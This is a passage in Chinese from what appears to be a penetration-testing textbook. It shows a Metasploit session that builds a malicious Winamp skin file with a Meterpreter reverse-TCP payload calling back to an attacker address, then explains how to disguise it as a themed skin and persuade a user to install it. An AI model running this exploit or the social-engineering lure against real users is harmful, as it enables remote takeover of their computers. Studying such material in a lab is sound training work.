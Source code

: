 如示例 10-22 中的 `show options` 所示，本模块没有需要设置的选项；我们所需的只是一个 Windows 有效载荷。该模块生成一个用于 Winamp 皮肤的恶意 Maki 文件。与我们的 PDF 示例一样，最终由我们来提供该文件并为有效载荷设置处理程序。

示例 10-22. Metasploit Winamp 漏洞利用

```
msf > **use exploit/windows/fileformat/winamp_maki_bof**
msf  exploit(winamp_maki_bof) > **show options**

Module options (exploit/windows/fileformat/winamp_maki_bof):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Winamp 5.55 / Windows XP SP3 / Windows 7 SP1

msf  exploit(winamp_maki_bof) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(winamp_maki_bof) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(winamp_maki_bof) > **exploit**

[*] Creating 'mcvcore.maki' file ...
[+] mcvcore.maki stored at /root/.msf4/local/mcvcore.maki
```

选择一个兼容的 Windows 有效载荷，如所示。一旦生成了恶意的 Maki 文件，将其复制到 Apache Web 服务器目录，并设置有效载荷处理程序。（设置处理程序的示例请参考示例 10-11）。现在我们需要将这个恶意文件打包，以便说服用户在 Winamp 中加载它。我们可以通过复制 Winamp 打包的皮肤之一来创建一个新的 Winamp 皮肤。然后将我们示例皮肤中的 *mcvcore.maki* 文件替换为我们恶意的文件。皮肤的外观无关紧要，因为它会导致 Winamp 崩溃并将会话发送到我们的 Metasploit 中。

在 Windows 7 中，复制默认的 Bento Winamp 皮肤文件夹（路径为 *C:\Program Files\Winamp\Skins*），并将其复制到 Kali 中。将文件夹名称从 *Bento* 重命名为 *Rocketship*。将 *Rocketship\scripts\mcvcore.maki* 文件替换为我们在 Metasploit 中创建的恶意文件。将文件夹压缩并复制到 Web 服务器中。在下一章中，我们将研究如何创建可信的社会工程学攻击，但可以简单地说，如果我们能够说服用户相信这个恶意皮肤会让他们的 Winamp 看起来像火箭船，那么我们可能能够说服他们安装它。

切换到 Windows 7，从 Kali Web 服务器下载压缩的皮肤，解压缩并将文件夹保存到 *C:\Program Files\Winamp\Skins*，如图 10-3 所示。
